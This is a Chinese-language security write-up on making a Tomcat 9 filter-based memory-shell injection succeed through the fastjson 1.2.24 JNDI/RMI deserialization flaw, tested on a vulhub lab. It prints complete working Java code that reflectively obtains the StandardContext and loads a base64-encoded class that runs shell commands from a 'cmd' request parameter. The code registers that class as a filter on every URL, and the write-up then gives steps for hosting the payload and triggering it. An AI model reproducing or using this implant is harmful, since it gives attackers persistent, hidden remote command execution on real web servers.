# Tomcat高版本绕过

你可能要问，为什么不用vulhub的fastjson1.2.24rce靶场做复现，而是要自己写一个呢？问题就出现在这里，笔者无论是用Github的JNDIExploit项目，还是手写代码，均无法注入成功。这是为什么呢？

这个问题困扰笔者许久，在多次尝试未果的情况下，笔者进入fastjson1.2.24靶机容器内部，dump出源码查看靶机所使用的tomcat版本

```bash
docker-compose cp web:/usr/src/fastjsondemo.jar fastjsondemo.jar
```



解压查看，发现靶机用的版本是Tomcat9



于是再新建一个基于tomcat9的项目





编辑pom.xml，添加依赖，使用tomcat9

```xml
    <dependencies>
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-catalina</artifactId>
            <version>9.0.97</version>
        </dependency>
        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
        </dependency>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.30.2-GA</version>
        </dependency>
    </dependencies>
```



放入Inject，并手动在HelloServlet.java调用无参构造方法同时打上断点，运行项目，并访问/hello入口，触发恶意代码。



发现在Inject.java的getContext()方法处爆出了空指针异常，重新以调试模式运行，让程序停在断点处。



跟进到Inject.java的getContext()方法内



程序获取standardroot变量失败，跟进WebappClassLoaderBase.getResources()方法查看为什么获取到的变量是null



发现方法已弃用，但全局存在访问级别为受保护的resources属性。于是改造Inject.getContext()为通过反射获取StandardContext。改造后的代码如下：

‍

```java
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.catalina.webresources.StandardRoot;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import sun.misc.BASE64Decoder;

import javax.servlet.http.HttpFilter;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class Inject {

    public Inject(){
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        try {
            Field field = WebappClassLoaderBase.class.getDeclaredField("resources");
            field.setAccessible(true);
            StandardRoot standardRoot = (StandardRoot) field.get(webappClassLoaderBase);
            StandardContext context = (StandardContext) standardRoot.getContext();


            BASE64Decoder base64Decoder = new BASE64Decoder();
            String shellCode = "yv66vgAAADQAWQoADwAvCAAlCwAwADEKADIAMwoAMgA0BwA1BwA2CgA3ADgKAAcAOQoABgA6CgAGADsLADwAPQoAPgA/BwBABwBBAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAA1MU2hlbGxGaWx0ZXI7AQAIZG9GaWx0ZXIBAG0oTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7TGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlO0xqYXZheC9zZXJ2bGV0L0ZpbHRlckNoYWluOylWAQAHcHJvY2VzcwEAE0xqYXZhL2xhbmcvUHJvY2VzczsBAA5idWZmZXJlZFJlYWRlcgEAGExqYXZhL2lvL0J1ZmZlcmVkUmVhZGVyOwEABGxpbmUBABJMamF2YS9sYW5nL1N0cmluZzsBAAdyZXF1ZXN0AQAnTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7AQAIcmVzcG9uc2UBAChMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2U7AQAFY2hhaW4BABtMamF2YXgvc2VydmxldC9GaWx0ZXJDaGFpbjsBAANjbWQBAA1TdGFja01hcFRhYmxlBwBCBwBDBwA1AQAKRXhjZXB0aW9ucwcARAEAB2Rlc3Ryb3kBAApTb3VyY2VGaWxlAQAQU2hlbGxGaWx0ZXIuamF2YQwAEAARBwBFDABGAEcHAEgMAEkASgwASwBMAQAWamF2YS9pby9CdWZmZXJlZFJlYWRlcgEAGWphdmEvaW8vSW5wdXRTdHJlYW1SZWFkZXIHAEMMAE0ATgwAEABPDAAQAFAMAFEAUgcAUwwAVABVBwBWDABXAFgBAAtTaGVsbEZpbHRlcgEAHWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwRmlsdGVyAQAQamF2YS9sYW5nL1N0cmluZwEAEWphdmEvbGFuZy9Qcm9jZXNzAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAJWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3QBAAxnZXRQYXJhbWV0ZXIBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWAQATKExqYXZhL2lvL1JlYWRlcjspVgEACHJlYWRMaW5lAQAUKClMamF2YS9sYW5nL1N0cmluZzsBACZqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXNwb25zZQEACWdldFdyaXRlcgEAFygpTGphdmEvaW8vUHJpbnRXcml0ZXI7AQATamF2YS9pby9QcmludFdyaXRlcgEAB3ByaW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYAIQAOAA8AAAAAAAMAAQAQABEAAQASAAAALwABAAEAAAAFKrcAAbEAAAACABMAAAAGAAEAAAAJABQAAAAMAAEAAAAFABUAFgAAAAQAFwAYAAIAEgAAAOsABQAIAAAASCsSArkAAwIAOgQZBMYAO7gABBkEtgAFOgW7AAZZuwAHWRkFtgAItwAJtwAKOgYZBrYAC1k6B8YAESy5AAwBABkHtgANp//qsQAAAAMAEwAAACIACAAAAAwACgANAA8ADgAZAA8AIwAQAC4AEgA5ABMARwAWABQAAABSAAgAGQAuABkAGgAFAC4AGQAbABwABgA2ABEAHQAeAAcAAABIABUAFgAAAAAASAAfACAAAQAAAEgAIQAiAAIAAABIACMAJAADAAoAPgAlAB4ABAAmAAAAEQAC/gAuBwAnBwAoBwAp+QAYACoAAAAEAAEAKwABACwAEQABABIAAAArAAAAAQAAAAGxAAAAAgATAAAABgABAAAAGgAUAAAADAABAAAAAQAVABYAAAABAC0AAAACAC4=";
            byte[] bytes = base64Decoder.decodeBuffer(shellCode);

            ClassLoader cl = Thread.currentThread().getContextClassLoader();
            Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            method.setAccessible(true);
            Class clazz = (Class) method.invoke(cl, bytes, 0, bytes.length);

            HttpFilter filter = (HttpFilter) clazz.newInstance();

            FilterDef filterDef = new FilterDef();
            filterDef.setFilterName("shell");
            filterDef.setFilter(filter);
            filterDef.setFilterClass(filter.getClass().getName());

            FilterMap filterMap = new FilterMap();
            filterMap.setFilterName("shell");
            filterMap.addURLPattern("/*");

            context.addFilterDef(filterDef);
            context.addFilterMapBefore(filterMap);
            context.filterStart();
            System.out.println("注入成功");
        } catch (NoSuchFieldException | IllegalAccessException e) {
            throw new RuntimeException(e);
        } catch (IOException e) {
            throw new RuntimeException(e);
        } catch (NoSuchMethodException e) {
            throw new RuntimeException(e);
        } catch (InvocationTargetException e) {
            throw new RuntimeException(e);
        } catch (InstantiationException e) {
            throw new RuntimeException(e);
        }
    }
}
```

那么，实战试试吧

1.编译注入类Inject，并托管在Http服务器上，我这里选择起一个python服务



2.配置RMI服务引用指向Inject



3.启动vulhub的fastjson靶机



4.访问并打出payload



5.任意位置加上参数?cmd=ls测试效果



‍
